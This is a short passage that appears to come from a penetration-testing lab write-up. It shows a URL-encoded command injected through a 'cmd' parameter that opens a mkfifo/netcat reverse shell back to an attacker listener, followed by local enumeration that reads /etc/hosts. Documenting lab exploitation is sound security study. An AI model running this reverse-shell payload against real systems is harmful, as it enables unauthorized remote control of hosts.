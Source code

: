 ```
http://10.2.1.2/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%20192.168.100.11%208888%20%3E%2Ftmp%2Ff
```

![picture 69](images/648dfc442ad40ba3cb5367c3c0a3e6fabd36729d3ca156fa6c3cfb48566a13af.png)  

<br/>

A reverse shell calls back to the `nc` listener:

![picture 70](images/ff1c6e6a176e69bf41b206a9b84dea878903184a04b1d827660abc0c080bac9d.png)  

![picture 92](images/c5e943399c6ec01b3a5a52d5016a2f89eaac76a8e9bf983ec9623314e7f52dd6.png)  

<br/>

## Local Enumeration - 10.2.1.2

Checking the `/etc/hosts` file:

```
cat /etc/hosts
```

![picture 71](images/1b1f496c7d49a103eb2d082b40f38ed06739f3ecc750495c83d86b0483b95cc1.png)  
